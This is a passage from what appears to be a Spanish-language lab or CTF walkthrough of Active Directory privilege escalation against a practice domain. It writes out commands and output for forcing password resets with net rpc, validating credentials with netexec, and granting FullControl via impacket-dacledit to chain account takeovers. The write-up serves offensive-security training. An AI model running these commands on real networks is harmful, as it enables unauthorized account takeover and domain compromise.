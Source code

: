 
------------------------------------------------------------------------
## Ahora mary.johnson tiene privilegios para cambiar la contrasena al usuario robert.williams


net rpc password "robert.williams" "Patito12345" -U "bloodhound.thl"/"mary.johnson"%"Patito12345" -S 192.168.56.105



netexec smb 192.168.56.105 -u robert.williams -p 'Patito12345'

└─$ netexec smb 192.168.56.105 -u robert.williams -p 'Patito12345'                                                      

SMB         192.168.56.105  445    ELEVATOR         [*] Windows Server 2022 Build 20348 x64 (name:ELEVATOR) (domain:bloodhound.thl) (signing:True) (SMBv1:False) 
SMB         192.168.56.105  445    ELEVATOR         [+] bloodhound.thl\robert.williams:Patito12345 
                                                                                                    

------------------------------------------------------------------------

## En el grupo de MARKETING esta el usuario   robert.williams


rpcclient $> enumdomgroups
group:[finanzas] rid:[0x456]
group:[marketing] rid:[0x459]
group:[operaciones] rid:[0x45b]

rpcclient $> querygroupmem 0x459
        rid:[0x458] attr:[0x7]

rpcclient $> queryuser 0x458
        User Name   :   robert.williams
        Full Name   :   Robert Williams





impacket-dacledit -action 'write' -rights 'FullControl' -principal 'robert.williams' -target 'patricia.brown' 'bloodhound.thl/robert.williams:Patito12345'

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
[*] DACL backed up to dacledit-20250905-194526.bak
[*] DACL modified successfully!
                                                                                                                                                                                                         


### Vamos a cambiarle de contrasena a PATRICIA

net rpc password "patricia.brown" "Patito12345" -U "bloodhound.thl"/"robert.williams"%"Patito12345" -S 192.168.56.105



netexec smb 192.168.56.105 -u patricia.brown -p 'Patito12345' 

